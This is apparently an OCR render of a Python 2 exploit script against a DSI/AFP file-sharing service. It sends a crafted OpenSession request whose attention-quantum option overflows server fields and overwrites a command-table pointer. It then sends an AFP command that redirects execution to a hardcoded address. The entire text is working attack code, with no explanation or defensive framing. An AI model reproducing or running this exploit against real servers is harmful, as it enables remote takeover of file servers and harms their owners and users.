 EXP
---

    import socket
    import struct
    import sys
    if len(sys.argv) != 3:
        sys.exit(0)
    ip = sys.argv[1]
    port = int(sys.argv[2])
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print "[+] Attempting connection to " + ip + ":" + sys.argv[2]
    sock.connect((ip, port))
    dsi_payload = "\x00\x00\x40\x00" # client quantum
    dsi_payload += '\x00\x00\x00\x00' # overwrites datasize
    dsi_payload += struct.pack("I", 0xdeadbeef) # overwrites quantum
    dsi_payload += struct.pack("I", 0xfeedface) # overwrites the ids
    dsi_payload += struct.pack("Q", 0x63b660) # overwrite commands ptr
    dsi_opensession = "\x01" # attention quantum option
    dsi_opensession += struct.pack("B", len(dsi_payload)) # length
    dsi_opensession += dsi_payload
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x04" # open session command
    dsi_header += "\x00\x01" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(dsi_opensession))
    dsi_header += "\x00\x00\x00\x00" # reserved
    dsi_header += dsi_opensession
    sock.sendall(dsi_header)
    resp = sock.recv(1024)
    print "[+] Open Session complete"
    afp_command = "\x01" # invoke the second entry in the table
    afp_command += "\x00" # protocol defined padding
    afp_command += "\x00\x00\x00\x00\x00\x00" # pad out the first entry
    afp_command += struct.pack("Q", 0x4295f0) # address to jump to
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x02" # "AFP" command
    dsi_header += "\x00\x02" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(afp_command))
    dsi_header += '\x00\x00\x00\x00' # reserved
    dsi_header += afp_command
    print "[+] Sending get server info request"
    sock.sendall(dsi_header)
    resp = sock.recv(1024)
    print resp
    print "[+] Fin."